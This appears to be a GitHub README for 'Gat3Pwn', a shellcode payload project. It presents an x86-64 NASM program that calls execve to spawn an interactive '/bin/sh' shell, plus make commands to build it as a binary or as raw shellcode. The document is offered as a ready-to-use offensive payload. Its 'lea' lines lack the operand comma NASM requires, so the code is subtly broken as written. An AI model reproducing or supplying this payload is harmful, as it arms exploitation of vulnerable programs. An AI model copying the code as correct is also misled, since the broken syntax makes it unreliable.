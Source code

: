 # Gat3Pwn

*universal method of executing system payloads*

Gat3Pwn is a method of executing system payloads through shellcodes.

## Explaining

```nasm
;
;  payload.nasm
;  Gat3Pwn
;
;  Created by The Gate Group on 2020.
;  Copyright © 2020 The Gate Group. All rights reserved.
;

; program entry point

section .text
global _start
_start:
	 mov rax, 59        ; call execve
	 lea rdi [rel cmd]  ; command
	 lea rsi [rel args] ; command args
	 xor edx, edx       ; zero initialize edx
	 syscall            ; call execve

; program (read-only data) constants

section .rodata
align 8              ; enforce alignment
args dq cmd, arg1, 0 ; merge all command with arguments
arg1 db '-i', 0      ; initialize argument number 1
cmd  db '/bin/sh', 0 ; initialize command
```

## Usage

**Get payload:**

```
make payload
./payload
```

**Get shellcode:**

```
make shellcode
```

